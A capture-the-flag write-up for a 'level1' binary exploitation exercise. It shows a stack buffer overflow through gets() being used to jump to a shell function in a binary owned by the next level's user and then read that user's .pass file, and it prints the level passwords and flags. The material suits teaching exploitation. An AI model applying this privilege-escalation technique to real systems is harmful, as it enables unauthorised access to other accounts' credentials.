 # level1

## Vulnerability: Trivial buffer overflow

level1's password: `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`

1. examinate existing files and permissions

```bash
ls -la
```

shows that the level1 executable belongs to level2, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [ghidra](https://github.com/NationalSecurityAgency/ghidra) and examine the resulting code

```bash
scp -P 4242 level1@<host>:level1 .
```

c file shows a simple `gets()` function that reads from stdin and puts the result in a variable, we might be able to spawn a shell using a buffer overflow. An unsued function itself spawns a shell, we might want to use it.

3. test the vulnerability

```bash
python -c 'print "k"*100' | ./level1
```

shows a SEGV, meaning that the program is vulnerable, we can use a buffer overflow to overwrite the return address and execute arbitrary code

4. exploit the buffer

either by using `exploit.py` or by reading the variable declaration in the c file we can calculate the padding of 76. It would also be possible to get it with gdb, but I did succeed without using gdb. Using `objdump -d level1` we can get `run`'s function's address, an thus run the exploit. Keep in mind that memory uses little endian addressing, thus converting `12345678` to `\x78\x56\x34\x12`.

```bash
python -c 'print "k"*76 + "<little endian address>"' | ./level1
```

5. use cat to read from stdin and access the shell (otherwise the program exits)

```bash
(python -c 'print "k"*76 + "<little endian address>"' ; cat) | ./level1
```

6. get the flag

```bash
whoami
cat /home/user/level2/.pass
```

gives flag: `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
